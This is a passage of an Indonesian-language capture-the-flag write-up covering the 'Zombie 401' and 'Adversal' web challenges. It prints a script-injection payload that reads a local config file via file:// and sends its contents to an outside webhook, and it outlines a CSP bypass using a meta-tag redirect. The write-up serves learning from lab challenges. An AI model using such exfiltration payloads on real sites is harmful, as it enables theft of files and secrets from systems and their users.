 Kita masukkan payload tersebut ke endpoint `/zombie` dan kita seperti biasa.

![](https://i.imgur.com/sry1Qwe.png)

Setelah itu kita akan mendapatkan flagnya di webhook kita.

## Zombie 401
### Description
You are almost there. Only one more to go!

Can you find the secret flag and complete the zombie gauntlet?

You can do it!

### Exploit
Untuk challenge ini kita perlu untuk mengeksploitasi package zombie js lagi. Kita bisa mengeksploitasi ini dengan cara membaca file dengan protocol `file://`. Berikut payload yang saya gunakan untuk membaca flag.
```html 
<script>fetch("file:///ctf/app/config.json").then(a=>a.text()).then(a=>fetch("https://eogvtc165bf4gh5.m.pipedream.net?"+a))</script>
```


## Adversal - web
### Description
I added advertisements to my web application to serve one time passwords! I'm sure ads are secure, right?

source code: [link](https://drive.google.com/file/d/1GGoxSjgLRZ3S_N6CdNX7rq4GNw96Dnpw/view?usp=share_link)
### Exploit
Pada challenge ini kira akan diberikan link menuju web berikut.

![](https://i.imgur.com/AjwjtaG.png)


Di web tersebut kita tidak bisa melakukan XSS dikarenakan terdapat CSP `script-src: none`.

```javascript 
    res.set("Content-Security-Policy", "script-src 'none'; object-src 'none'; connect-src 'self';");

```

Tetapi kita bisa melakukan redirect menggunakan tag `meta`.

Jika kita lihat ke source code `index.js`, kita akan menemukan bahwa otp didapat dari output `page.$eval`.

```javascript
...snip...
        const ctx = await browser.createIncognitoBrowserContext()
        const page = await ctx.newPage()

        let otp = null;
        try {
            await page.setUserAgent('puppeteer');
            await page.goto(url, { timeout: 20000, waitUntil: 'networkidle2' })
            otp = await page.$eval("input", element=> element.getAttribute("value"));
...snip...
```
